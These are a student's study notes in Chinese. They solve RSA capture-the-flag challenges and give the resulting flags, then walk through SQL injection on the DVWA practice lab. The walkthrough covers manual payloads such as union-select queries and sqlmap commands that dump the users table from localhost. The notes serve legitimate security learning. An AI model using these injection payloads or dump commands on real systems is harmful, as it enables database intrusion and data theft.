 # 张心玥学习报告01
#学习笔记

## RSA
### Buu
#### 题目——rsarsa
![](2022-03-19-17-00-18.png)
脚本
![](2022-03-19-17-00-52.png)
运行结果
![](2022-03-19-17-01-14.png)
最后flag为：
Flag{5577446633554466577768879988}

#### 题目———RSA1
![](2022-03-19-17-02-42.png)
脚本
![](2022-03-19-17-02-57.png)
运行结果
![](2022-03-19-17-05-26.png)
对结果进行十六进制转换
6e6f784354467b57333163306d335f37305f4368316e343730776e7d
![](2022-03-19-17-06-09.png)
最后flag为：
Flag{W31c0m3_70_Ch1n470wn}

#### 题目——RSA2
![](2022-03-19-17-07-08.png)
脚本
![](2022-03-19-17-07-21.png)
运行结果
![](2022-03-19-17-07-50.png)
最后flag为：
flag{wow_leaking_dp_breaks_rsa?_98924743502}

## SQL注入
SQL是用于访问和处理数据库的标准的计算机语言。
显示数据库：show databases
打开数据库：use db_name
显示数据表：show tables
显示表中各字段信息：discribe table_name
显示表创建过程：show create table表名
删除数据库：drop databases 数据库名
清空数据表：delete from table_name
删除数据表：drop table table_name
数据库链接：mysql-uroot-proot
数据库退出：exit
列出当前MYSQL的相关状态信息：status

#### DVWA靶场SQL注入LOW
1.手工注入
查看源代码
![](2022-03-19-17-10-22.png)
发现没有对id进行限制
输入 1' and 1=1#
![](2022-03-19-17-11-21.png)
语句发生变化，在原有语句查询完成后会判断1=1，如果判断正确才会输出
（#的作用是移除后续SQL的语句，将后面可能造成影响的语句删除）

输入 1' and 1=2#
![](2022-03-19-17-12-14.png)
语句发生变化，在查询完原有语句后判断1=2，判断正确才会有输出
发现输出，但是1=2为错误语句，所以存在SQL注入漏洞

判断字段数
![](2022-03-19-17-12-46.png)
依次输入“1' order by 1#”,” 1' order by 2”,” 1' order by 3”
从三个字段时开始报错
![](2022-03-19-17-13-22.png)
所以数据库只存在两列

判断回显
输入 1' union select 1,2#
![](2022-03-19-17-15-26.png)

查询当前数据库
输入 1' union select 1,database()#
或
输入 1' union select user(),database()#
![](2022-03-19-17-20-48.png)
显示当前数据库为dvwa

2.SQLmap
通过手动注入已知有数据库dvwa
所以输入 
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa --tables
查询数据库中的表
![](2022-03-19-17-36-14.png)

接着输入
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --dump
查询到
![](2022-03-19-17-38-22.png)